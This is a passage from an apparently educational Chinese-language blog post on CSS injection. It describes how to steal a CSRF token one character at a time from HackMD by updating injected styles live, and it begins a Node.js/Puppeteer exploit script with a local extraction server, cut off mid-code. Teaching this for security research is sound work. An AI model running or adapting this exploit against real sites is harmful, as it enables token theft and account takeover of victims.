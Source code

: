 可以看到 `unsafe-inline` 是允許的，所以可以插入任何的 CSS。

確認可以插入 CSS 以後，就可以開始來準備偷資料了。還記得前面有一個問題沒有回答，那就是「該怎麼偷第一個以後的字元？」，我先以 HackMD 為例回答。

首先，CSRF token 這種東西通常重新整理就會換一個，所以不能重新整理，而 HackMD 剛好支援即時更新，只要內容變了，會立刻反映在其他 client 的畫面上，因此可以做到「不重新整理而更新 style」，流程是這樣的：

1. 準備好偷第一個字元的 style，插入到 HackMD 裡面
2. 受害者打開頁面
3. 伺服器收到第一個字元的 request
4. 從伺服器更新 HackMD 內容，換成偷第二個字元的 payload
5. 受害者頁面即時更新，載入新的 style
6. 伺服器收到第二個字元的 request
7. 不斷循環直到偷完所有字元

簡單的示意圖如下：

![flow](/img/css-injection-1/p4.png)

程式碼如下：

``` js
const puppeteer = require('puppeteer');
const express = require('express')

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

// Create a hackMD document and let anyone can view/edit
const noteUrl = 'https://hackmd.io/1awd-Hg82fekACbL_ode3aasf'
const host = 'http://localhost:3000'
const baseUrl = host + '/extract?q='
const port = process.env.PORT || 3000

;(async function() {
  const app = express()
  const browser = await puppeteer.launch({
    headless: true
  });
  const page = await browser.newPage();
  await page.setViewport({ width: 1280, height: 800 })
  await page.setRequestInterception(true);

  page.on('request', request => {
    const url = request.url()
    // cancel request to self
    if (url.includes(baseUrl)) {
      request.abort()
    } else {
      request.continue()
    }
  });
  app.listen(port, () => {
    console.log(`Listening at http://localhost:${port}`)
    console.log('Waiting for server to get ready...')
    startExploit(app, page)
  })
})()

async function startExploit(app, page) {
  let currentToken = ''
  await page.goto(noteUrl + '?edit');
  
  // @see: https://stackoverflow.com/questions/51857070/puppeteer-in-nodejs-reports-error-node-is-either-not-visible-or-not-an-htmlele
  await page.addStyleTag({ content: "{scroll-behavior: auto !important;}" });
  const initialPayload = generateCss()
```